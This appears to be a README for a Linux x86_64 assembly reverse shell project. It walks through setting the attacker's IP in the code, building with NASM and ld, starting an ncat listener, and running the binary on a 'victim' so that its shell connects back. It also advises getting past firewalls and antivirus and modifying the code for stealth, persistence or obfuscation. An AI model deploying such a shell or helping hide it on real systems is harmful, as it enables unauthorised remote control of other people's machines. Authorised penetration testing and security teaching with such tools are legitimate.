 # Reverse Shell in x86_64 Assembly

## Overview
This project is a simple **reverse shell** written in **x86_64 Assembly** for **Linux**. It connects back to an attacker's machine, allowing remote command execution on the target system.

![reverse-shell-1024x333](https://github.com/user-attachments/assets/9fd59e95-4cb7-4cae-b906-fddce59bd85f)


## Requirements
To use this reverse shell, you need the following:

- **Attacker's Machine** (Listening for the connection):
  - Install **Nmap** (includes `ncat`)
  - A terminal to run the `ncat` listener

- **Victim's Machine** (Executing the reverse shell):
  - Linux OS with support for x86_64 assembly
  - NASM (Netwide Assembler) for assembling the script
  - LD (GNU linker) to generate the final executable

## Setup
### 1. Edit the IP Address
Before compiling, update the script to reflect the attacker's IP address. Modify the following line:

```assembly
    at sin_addr,    dd 0x1E01A8C0   ; IP address of the attacker: 192.168.1.30 (little-endian)
```

To set your attacker's IP address, convert your **IPv4 address** into **little-endian** format and replace `0x1E01A8C0` accordingly. Example:

- If the attacker's IP is `192.168.1.30`, then in little-endian it is `0x1E01A8C0`.

## Compilation
Use **NASM** and **LD** to compile the script:

```bash
nasm -f elf64 reverse_shell.asm -o reverse_shell.o
ld reverse_shell.o -o reverse_shell
```

This will generate an executable named `reverse_shell`.

## Running the Reverse Shell
### 1. Start the Listener on the Attacker's Machine
On the **attacker's** machine, use `ncat` to listen for incoming connections:

```powershell
PS C:\Users\X> ncat -lvnp 12345
```

This command:
- `-l` (listen mode)
- `-v` (verbose mode)
- `-n` (numeric-only IP addresses, no DNS resolution)
- `-p 12345` (port 12345)

### 2. Execute the Reverse Shell on the Victim's Machine
On the **victim's** machine, run the compiled binary:

```bash
./reverse_shell
```

### 3. Gain Remote Shell Access
Once executed, you should receive a **shell session** on the **attacker's** machine via `ncat`.

You can now execute commands remotely on the victim's machine.

## Notes
- Ensure that **firewall rules** and **antivirus** do not block the connection.
- You may need `sudo` privileges on the victim's machine.
- Modify the script for stealth, persistence, or obfuscation if required.

## Licensing

This reverse shell is released under the MIT license by DanielaCe18. Source code is available on GitHub.

## Disclaimer ⚠️

Usage of this reverse shell for attacking a target without prior consent of its owner is illegal. It is the end user's responsibility to obey all applicable local laws.

